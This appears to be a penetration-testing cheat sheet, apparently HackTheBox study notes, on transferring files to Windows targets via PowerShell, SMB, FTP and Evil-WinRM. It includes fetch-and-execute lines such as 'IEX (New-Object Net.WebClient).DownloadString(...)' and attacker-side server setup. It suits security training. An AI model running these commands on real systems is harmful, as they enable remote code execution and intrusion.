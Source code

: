 ```yaml
---
description: Windows file transfer download techniques
layout:
  width: default
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# 🪟 Windows Download

## Powershell

### Powershell Base64 Encode/Decode

#### Encode

```bash
$ cat <file> | base64 -w 0; echo
```

#### Decode

{% code overflow="wrap" fullWidth="false" %}
```powershell
PS C:\htb> [IO.File]::WriteAllBytes("<Save Path>", [Convert]::FromBase64String("<Base64 String>"))
```
{% endcode %}

### Powershell Web Downloads

|                                                                                                                          |                                                                                                                            |
| ------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------- |
| Method                                                                                                                   | Description                                                                                                                |
| [OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)                       | Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0). |
| [OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)             | Returns the data from a resource without blocking the calling thread.                                                      |
| [DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)               | Downloads data from a resource and returns a Byte array.                                                                   |
| [DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)     | Downloads data from a resource and returns a Byte array without blocking the calling thread.                               |
| [DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)               | Downloads data from a resource to a local file.                                                                            |
| [DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)     | Downloads data from a resource to a local file without blocking the calling thread.                                        |
| [DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)           | Downloads a String from a resource and returns a String.                                                                   |
| [DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0) | Downloads a String from a resource without blocking the calling thread.                                                    |

{% code overflow="wrap" %}
```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadFile('<REMOTE FILE>','LOCAL FILE>')
```
{% endcode %}

### Powershell Web Download - In Memory

{% code overflow="wrap" %}
```powershell
IEX (New-Object Net.WebClient).DownloadString('<FILE>')
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadString('<FILE>') | IEX
```
{% endcode %}

## SMB

### Starting SMB Server From Kali

```bash
$ sudo impacket-smbserver share -smb2support /tmp/smb
```

```bash
$ sudo impacket-smbserver share -smb2support /tmp/smb -user test -password test
```

### Copy File From SMB Server

```batch
net use n: \\<IP>\<Share> /user:<USER> <PASS>
```

```batch
C:\htb> copy \\<IP>\<SHARE>\<FILE>
```

## FTP

### Starting FTP Server From Kali

```bash
$ sudo python3 -m pyftpdlib --port 21
```

### Copy File From FTP Server

{% code overflow="wrap" %}
```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://<IP>/<FILE>', '<LOCAL FILE')
```
{% endcode %}

## Evil-Winrm

```powershell
*Evil-WinRM* PS C:\> upload <REMOTE FILE> <LOCAL FILE>
```
